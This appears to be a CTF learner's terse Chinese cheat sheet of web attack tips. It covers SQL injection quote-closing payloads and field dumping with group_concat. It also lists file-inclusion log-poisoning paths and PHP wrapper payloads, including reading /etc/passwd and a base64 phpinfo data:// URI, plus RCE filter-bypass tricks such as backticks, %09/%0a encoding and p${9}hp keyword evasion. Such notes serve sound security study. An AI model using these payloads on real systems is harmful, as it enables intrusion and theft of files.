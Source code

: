 sqli:爆多字段别忘了用group_concat
爆字段别忘了指定数据库以及表[[EXAM特供WP#^1e5e69]]
过滤了# --+就再闭合一次
如
`select * from shit where id='1'`
就
`select * from shit where id='1' and 1=1 or '1' = '1'`
即
`1' and 1=1 or '1' = '1`
双引号同理
fileinclusion:写日志！伪协议！
日志：
```
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/httpd/access.log
```
伪协议：
```
php://filter/read=convert.base64-encode/resource=
php://input
data://text/plain;base64,PD9waHAgZWNobyBwaHBpbmZvKCk7Pz4=
file:///etc/passwd
phar://压缩包名/内部文件名
zip://压缩包绝对路径#内部文件名（对#编码）
```
rce:遇到2>&1代表输出错误，输出错误的一律用反引号将命令结果输出到错误中。
遇到无回显的就用重定向到文件内进行查看结果，活用通配符
想象tab补全的内容可能会输出有趣的内容。tab->%09 回车->%0a
过滤特定词汇的使用不存在的变量绕过p${9}hp -> php